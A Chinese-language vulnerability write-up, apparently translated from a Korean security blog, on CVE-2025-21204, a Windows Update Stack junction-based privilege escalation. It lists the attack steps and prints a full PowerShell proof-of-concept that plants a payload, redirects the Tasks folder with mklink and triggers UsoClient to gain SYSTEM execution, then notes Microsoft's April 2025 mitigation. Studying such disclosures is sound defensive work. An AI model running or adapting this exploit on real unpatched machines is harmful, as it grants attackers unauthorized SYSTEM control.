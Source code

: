 #  CVE-2025-21204: Windows Update Stack 中的不当链接跟随导致的权限提升   
pwndorei  securitainment   2025-04-18 06:37  
  
> 【翻译】CVE-2025-21204 Windows Update Stack의 Improper Link Following Privilege Escalation  
  
## URL  
  
https://cyberdom.blog/abusing-the-windows-update-stack-to-gain-system-access-cve-2025-21204/[1]  
## 目标  
- 使用 2025 年 4 月更新之前的 Update Stack 的 Windows 系统  
  
- https://msrc.microsoft.com/update-guide/vulnerability/CVE-2025-21204/[2]  
  
## 说明  
  
CVE-2025-21204 是 Windows 更新栈中的本地权限提升漏洞，发生在MoUsoCoreWorker.exe  
和UsoClient.exe  
等具有 SYSTEM 权限的进程执行更新过程中。在更新过程中，具有 SYSTEM 权限的进程会执行位于C:\ProgramData\Microsoft\UpdateStack\Tasks  
路径下的脚本或二进制文件，但该文件夹的权限设置不当，攻击者可以删除该文件夹并用指向包含恶意负载的文件夹的链接（junction）替换它，从而通过以下步骤实现权限提升：  
1. 攻击者在其可控制的路径中放置 PowerShell 脚本等负载。  
  
1. 删除C:\ProgramData\Microsoft\UpdateStack\Tasks  
并用链接到步骤 1 中创建负载的路径的 junction 替换它。  
  
1. 通过计划任务或直接触发更新来创建UsoClient.exe  
、MoUsoCoreWorker.exe  
、TiWorker.exe  
等进程。  
  
1. 创建的进程执行负载，从而实现权限提升。  
  
以下是用 PowerShell 编写的   
PoC[3]  
，通过创建系统权限文件来证明权限提升的成功。  
```
<#
.SYNOPSIS
    CVE-2025-21204 exploit simulation for non-admin users via junction-based path hijack.

.DESCRIPTION
    Drops a bait payload in a user-controlled directory, creates a junction to hijack the Update Stack path,
    and triggers the update process to test if SYSTEM accesses the payload.
    The script provide the poc that allows to run this actions. 

.AUTHOR
    Elli Shlomo

#>

# Paths
$trapPath      = "$env:APPDATA\Microsoft\UpdateStack\Tasks"
$updateStackRealPath = "C:\ProgramData\Microsoft\UpdateStack\Tasks"
$payloadPath   = "$trapPath\UpdateStackAgent.dll"
$proofPath     = "C:\Users\Public\cve2025-proof.log"
$logPath       = "$env:APPDATA\CVE2025\simulation.log"
$evidencePath  = "$env:APPDATA\CVE2025\evidence.txt"
$verdictPath   = "$env:APPDATA\CVE2025\vulnerable.txt"
$verboseLog    = "$env:TEMP\cve2025-verbose.log"

# Intro
Write-Host "`n[*] CVE-2025-21204 Exploit Simulation (Non-Admin)"
Write-Host "[*] Trap directory       : $trapPath"
Write-Host "[*] Payload DLL path     : $payloadPath"
Write-Host "[*] SYSTEM proof file    : $proofPath"
Write-Host "[*] Simulation log       : $logPath"
Write-Host "[*] Evidence file        : $evidencePath"
Write-Host "[*] Verdict result       : $verdictPath"
Write-Host "[*] Verbose transcript   : $verboseLog`n"

# Start transcript
Start-Transcript -Path $verboseLog -Force

# Ensure directories exist
Write-Host "[*] Creating necessary directories..."
New-Item -Path $trapPath -ItemType Directory -Force -ErrorAction SilentlyContinue | Out-Null
New-Item -Path (Split-Path $logPath) -ItemType Directory -Force -ErrorAction SilentlyContinue | Out-Null
Write-Host "[+] Directories ready.`n"

# Payload content
$payload = @"
Payload executed by SYSTEM at: $(Get-Date)
"@

# Write bait payload
Write-Host "[*] Writing payload to: $payloadPath"
$payload | Out-File -FilePath $payloadPath -Encoding ASCII
$payload | Out-File -FilePath $proofPath -Append
Write-Host "[+] Payload written.`n"

# Simulation metadata log
$log = @"
CVE-2025-21204 Exploit Simulation
-------------------------------------
Date         : $(Get-Date)
Payload File : $payloadPath
Hijack Path  : $updateStackRealPath
Proof File   : $proofPath
"@
Set-Content -Path $logPath -Value $log -Encoding UTF8 -Force
Write-Host "[+] Simulation metadata saved.`n"

# Attempt junction creation (non-admin safe)
Write-Host "[*] Attempting junction (no admin)..."
if (-not (Test-Path $updateStackRealPath)) {
    try {
        $cmd = "cmd.exe /c mklink /J `"$updateStackRealPath`" `"$trapPath`""
        Start-Process -FilePath "cmd.exe" -ArgumentList "/c mklink /J `"$updateStackRealPath`" `"$trapPath`"" -NoNewWindow -Wait
        Write-Host "[+] Junction created: $updateStackRealPath → $trapPath"
    } catch {
        Write-Host "[-] Failed to create junction: $_"
    }
} else {
    Write-Host "[!] Target path already exists: $updateStackRealPath"
    Write-Host "[-] Cannot create junction unless folder is removed by SYSTEM update cleanup."
}
Write-Host ""

# Trigger update
Write-Host "[*] Triggering UsoClient.exe (StartScan)..."
try {
    Start-Process UsoClient.exe -ArgumentList StartScan -WindowStyle Hidden
    Write-Host "[+] UsoClient.exe started.`n"
} catch {
    Write-Host "[-] Failed to trigger UsoClient.exe: $_"
}

# Monitor for SYSTEM process
Write-Host "[*] Monitoring for SYSTEM process MoUsoCoreWorker.exe..."
$found = $false
for ($i = 1; $i -le 6; $i++) {
    Start-Sleep -Seconds 5
    Write-Host "[=] Attempt ${i}: Checking..."
    if (Get-Process -Name "MoUsoCoreWorker" -ErrorAction SilentlyContinue) {
        Write-Host "[!] SYSTEM process detected: MoUsoCoreWorker.exe"
        $found = $true
        break
    }
}
Start-Sleep -Seconds 5

# Check for success
Write-Host "`n[*] Analyzing payload execution..."
if (Test-Path $proofPath) {
    $owner = (Get-Acl $proofPath).Owner
    $timestamp = (Get-Item $proofPath).LastWriteTime
    $details = @"
[+] Exploit successful
Payload executed as: $owner
Last Modified: $timestamp
"@
    Set-Content -Path $verdictPath -Value $true
    Write-Host "[✓] SUCCESS: SYSTEM likely accessed the payload."
} else {
    $details = @"
[!] Exploit failed
No proof file found.
Time: $(Get-Date)
"@
    Set-Content -Path $verdictPath -Value $false
    Write-Host "[✗] FAILURE: Payload was not executed by SYSTEM."
}

# Save evidence
Set-Content -Path $evidencePath -Value $details -Encoding UTF8
Write-Host "[*] Forensic evidence saved: $evidencePath"

# End
Stop-Transcript
Write-Host "`n[✓] Simulation complete. See verbose log: $verboseLog`n"
```  
  
在 2025 年 4 月的补丁更新中，作为缓解措施，Microsoft 预先创建了可能被用于攻击的文件夹（如 C:\inetpub  
等），并应用了默认 ACL，从而防止这些文件夹被用于链接跟随（link following）攻击。  
## 参考资料  
  
[1]   
https://cyberdom.blog/abusing-the-windows-update-stack-to-gain-system-access-cve-2025-21204/: https://cyberdom.blog/abusing-the-windows-update-stack-to-gain-system-access-cve-2025-21204/  
  
[2]   
https://msrc.microsoft.com/update-guide/vulnerability/CVE-2025-21204/: https://msrc.microsoft.com/update-guide/vulnerability/CVE-2025-21204/  
  
[3]   
PoC: https://raw.githubusercontent.com/eshlomo1/CloudSec/refs/heads/main/Attacking%20the%20Cloud/CVE-2025-21204/Exploit-CVE2025-UpdateStackLPE-NonAdmin.ps1  
  
  
